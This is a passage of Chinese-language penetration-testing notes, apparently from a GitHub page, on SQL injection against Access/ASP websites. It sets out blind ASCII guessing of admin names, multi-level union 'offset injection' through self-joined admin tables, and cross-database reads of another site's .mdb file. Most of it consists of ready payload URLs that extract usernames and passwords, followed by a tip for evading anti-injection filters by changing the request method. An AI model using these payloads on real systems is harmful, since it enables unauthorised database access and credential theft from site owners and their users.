 * **猜解管理员账号的第一个数据（通过判断ascii码来判断）**
  * and (select top 1 asc(mid(admin,1,1)) from admin)>100 返回正常说明大于，不正常说明不大于
  * and (select top 1 asc(mid(admin,1,1)) from admin)>50  返回正常说明大于
  * and (select top 1 asc(mid(admin,1,1)) from admin)=97  返回正常说明等于97 97对应的字母为a

### 【分段偏移注入】

* **偏移注入**
  * 首先使用联合查询，猜出含有多少列，union select 1 from admin，union select 1，2 from admin 直到页面成功返回
  * 用*号从最后一个字段数向前逐个删除来代替，直到显示正常，union select 1，2，3，4，* from admin，union select 1，2，3，* from admin，union select 1，2，* from admin
  * 会随机爆出该表中的一些数据
  >局限性：当页面输出信息较少时，不建议使用此方法，由于随机爆出信息，则可能爆不出admin账号和密码

* **分段偏移注入**
  * 分段偏移注入基本公式：
  联合查询所要补充的字段数 = 当前字段数量 - 目标表的字段数 x N（N=1,2...）（注意：“联合查询所要补充的字段数” 指的是union关键字后面的select查询所需补充的字段数）
  在此处即为：联合查询补充字段数 = 当前字段数量（22） - admin表的字段数（6） x N
  当N=1时我们称为 “1级偏移注入”，当N=2时我们称为 “2级偏移注入”；当N=3时我们称为 “3级偏移注入”，...

  * 一级偏移注入：
  根据公式我们可以计算出：联合查询补充字段数 = 22-6x1 = 16
  ?id=1513 union select top 1 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16, * from admin
  在这里我们解释一下，为什么1级偏移注入并没有爆出我们想要的字段值呢
  我们可以进行2级(多级)偏移注入（即通过admin表的自连接使得sql语句中“ * ”所代表的的字段数增大，那么联合查询中用于充数字段就会减小，这样的话，admin表中的数据自然会向前移动了）
  
  * 二级偏移注入：
  根据公式我们可以计算出：联合查询补充字段数 = 22-6x2 = 10
  ?id=1513 union select 1,2,3,4,5,6,7,8,9,10, * from (admin a inner join admin b on a.id=b.id)
  经过2级偏移注入，我们成功的将admin表的数据向前移动了6个字段，使其原本在17号字段及其之后才显现出的数据，变为了在11号字段及其之后就可回显而出。而此时admin表的password字段和count_time字段恰好处于显示位13和15上，于是就自然而然的暴露了出来。
  由于admin表进行了一次自连接，使得payload中from关键字后面的表由原有的 “admin表” 变成了：由“先让admin自己做笛卡尔积然后挑选id值相等的记录”组成的表。这样的话，payload中的“ * ”就由原来所代表的 “admin表” 中的6个字段，变为了现在所代表的 “admin自连接表” 的12个字段，又由于union关键字的使用，要求union关键字后面select查询的字段数必须要等于前面select查询的字段数，所以union关键字后面的select中用于充数的字段由原来的22-6=16变为了22-12=10个字段，因此由于充数的字段变少了，那么admin表的数据自然的就可以向前移动了。
  请注意：admin表中的数据向前移动的字段数只能是admin表（即目标表）字段数的整数倍（这是由表自连接的特性所决定的
  
  * 三级偏移注入：
  向前逐个删除差值个数后，查询语句后加上 from （（admin as a inner join admin as b on a.id=b.id）inner join admin as c on a.id=c.id），爆出第三个数据
  
  * 微调payload
  ?id=1513 union select top 1 1,2,3,4,5,6,7,8,9,10,b.id, * from (admin a inner join admin b on a.id=b.id)
  根据页面返回的数据，我们可以看到，在第13号显示位我们成功的爆出了admin字段的第一个值:admin


### 【跨库查询】

* **条件**
  * 条件:同服务器下的站点有注入,知道对方站的数据库绝对路径，知道对方数据库表，表中的字段名可以用这个方法来跨库查询.
  * a是目标站点 b是存在注入的站点 a,b是同服务器的站点
  * admin为数据库中的表，user为数据库中admin表的段，password为数据库中admin表的段.
  ```
  http://xxx.com/news/type.asp?type?id=1 and 1=2 union select 1,2,user,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin
  http://127.0.0.1:81/0/Production/PRODUCT_DETAIL.asp?id=1451 union select 1,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from [D:\wwwroot\1\Databases\xycms.mdb].admin
  http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp?id=-1513%20UNION%20SELECT%201,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22%20from%20admin_user%20in%20'C:\Users\Seven\Desktop\webpentest\1\xydata\xycms.mdb'
  ```
### 【通用型防注入代码绕过】
* **通用弹窗拦截**
  改变提交方式，GET变POST，POST变cookie提交
  